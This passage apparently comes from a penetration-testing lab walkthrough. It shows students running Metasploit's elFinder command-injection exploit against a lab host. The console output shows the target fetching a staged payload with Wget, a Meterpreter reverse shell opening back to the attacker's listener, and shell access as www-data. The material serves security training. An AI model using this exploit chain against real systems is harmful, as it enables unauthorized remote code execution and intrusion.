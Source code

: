 Students then will need to launch the exploit using the `exploit` command:

Code: shell

```shell
exploit
```

```
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > exploit

[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. elFinder running version 2.1.53
[*] Uploading file kQicyiWU.txt to elFinder
[+] Text file was successfully uploaded!
[*] Attempting to create archive KaAVhqkrKY.zip
[+] Archive was successfully created!
[*] Using URL: http://0.0.0.0:8080/8UJhg4LeuT82yH7
[*] Local IP: http://142.93.43.160:8080/8UJhg4LeuT82yH7
[*] Client 10.129.161.215 (Wget/1.20.3 (linux-gnu)) requested /8UJhg4LeuT82yH7
[*] Sending payload to 10.129.161.215 (Wget/1.20.3 (linux-gnu))
[*] Command Stager progress -  53.45% done (62/116 bytes)
[*] Command Stager progress -  72.41% done (84/116 bytes)
[*] Sending stage (984904 bytes) to 10.129.161.215
[+] Deleted kQicyiWU.txt
[+] Deleted KaAVhqkrKY.zip
[*] Meterpreter session 1 opened (10.10.14.17:4444 -> 10.129.161.215:33188) at 2022-06-12 16:31:31 +0100
[*] Command Stager progress -  83.62% done (97/116 bytes)
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Server stopped.

meterpreter >
```

Since the `whoami` command is not supported in `meterpreter`, students need to first spawn a normal shell using the `shell` command and then run `whoami`:

Code: shell

```shell
shell
whoami
```

```
meterpreter > shell

Process 1787 created.
Channel 1 created.
whoami

www-data
```
